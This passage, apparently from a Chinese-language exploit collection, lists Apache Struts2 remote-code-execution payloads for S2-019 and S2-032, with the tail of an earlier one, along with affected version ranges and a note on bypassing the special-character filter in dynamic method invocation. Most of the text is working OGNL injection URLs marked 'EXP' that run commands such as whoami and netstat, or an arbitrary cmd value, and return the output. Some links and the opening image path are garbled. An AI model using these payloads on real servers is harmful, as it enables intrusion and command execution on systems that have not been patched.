 ```
http://127.0.0.1:8080/struts2-showcase-2.1.6/showcase.action?redirect:$`{`%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]%20`{`%27netstat%27,%27-an%27`}`%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%20%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%20%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%20%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29`}`
```

[](http://127.0.0.1:8080/struts2-showcase-2.1.6/showcase.action?redirect:%24%7B%23a%3D%28new%20java.lang.ProcessBuilder%28new%20java.lang.String%5B%5D%20%7B%27netstat%27,%27-an%27%7D%29%29.start%28%29,%23b%3D%23a.getInputStream%28%29,%23c%3Dnew%20java.io.InputStreamReader%20%28%23b%29,%23d%3Dnew%20java.io.BufferedReader%28%23c%29,%23e%3Dnew%20char%5B50000%5D,%23d.read%28%23e%29,%23matt%3D%20%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%20%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29%7D)

**五 S2-019**

Struts 2.0.0 – Struts 2.3.15.1

Struts 2.3.15.2以后的版本默认关闭开发模式,  比较鸡肋。

```
&lt;constant name="struts.enable.DynamicMethodInvocation" value="false”/&gt;
```

EXP:

```
http://x.x.x.x/x.action?debug=command&amp;expression=#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),#req=@org.apache.struts2.ServletActionContext@getRequest(),#resp=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#a=(new java.lang.ProcessBuilder(new java.lang.String[]`{`'whoami'`}`)).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[1000],#d.read(#e),#resp.println(#e),#resp.close()
```



**六 S2-032  S2-033   S2-037**

受影响版本：2.3.18-2.3.28(except 2.3.20.2 and 2.3.24.2)。

**S2-032**

假如动态方法调用已经开启,然后我们要调用对应的login方法的话 我们可以通过[http://localhost:8080/struts241/index!login.action](http://localhost:8080/struts241/index!login.action)来执行动态的方法调用。这种动态方法调用的时候method中的特殊字符都会被替换成空，但是可以通过[http://localhost:8080/struts241/index.action?method:login](http://localhost:8080/struts241/index.action?method:login%C0%B4%C8%C6%B9%FD%CE%DE%B7%A8%B4%AB%C8%EB%CC%D8%CA%E2%D7%D6%B7%FB%B5%C4%CF%DE%D6%C6)[来绕过无法传入特殊字符的限制](http://localhost:8080/struts241/index.action?method:login%C0%B4%C8%C6%B9%FD%CE%DE%B7%A8%B4%AB%C8%EB%CC%D8%CA%E2%D7%D6%B7%FB%B5%C4%CF%DE%D6%C6)。

EXP:

```
http://x.x.x.x/x.action?method:%23_memberAccess[%23parameters.name1[0]]%3dtrue,%23_memberAccess[%23parameters.name[0]]%3dtrue,%23_memberAccess[%23parameters.name2[0]]%3d`{``}`,%23_memberAccess[%23parameters.name3[0]]%3d`{``}`,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew%20java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&amp;name=allowStaticMethodAccess&amp;name1=allowPrivateAccess&amp;name2=excludedPackageNamePatterns&amp;name3=excludedClasses&amp;cmd=whoami&amp;pp=\\A&amp;ppp=%20&amp;encoding=UTF-8
```
